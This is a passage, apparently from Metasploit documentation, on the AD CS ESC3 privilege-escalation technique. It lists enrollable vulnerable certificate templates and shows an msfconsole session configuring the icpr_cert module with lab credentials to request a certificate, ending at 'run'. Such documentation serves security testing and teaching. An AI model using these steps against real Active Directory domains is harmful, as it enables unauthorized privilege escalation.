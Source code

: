 The list of ESC3_TEMPLATE_1 vulnerable templates is pretty short and consists of a single template:
- ESC3-TEMPLATE-1 - Vulnerable to ESC3_TEMPLATE_1 and allows enrollment via any authenticated domain user.

ESC3_TEMPLATE_2 are more plentiful though and we can find a few that are of interest:
- SubCA - Again as mentioned earlier can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.
- ESC3-Template2 - Enrollable via any authenticated domain user.
- User - Enrollable via any authenticated domain user.
- Administrator -  Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.
- Machine - No real overlap between Domain Computers and Authenticated Users I don't think?
- DomainController - Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.

Narrowing this list down to those we can actually enroll in as users, this leaves us with  `User` and `ESC3-Template2` as templates that can be used for the second part of this vulnerability.

We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
```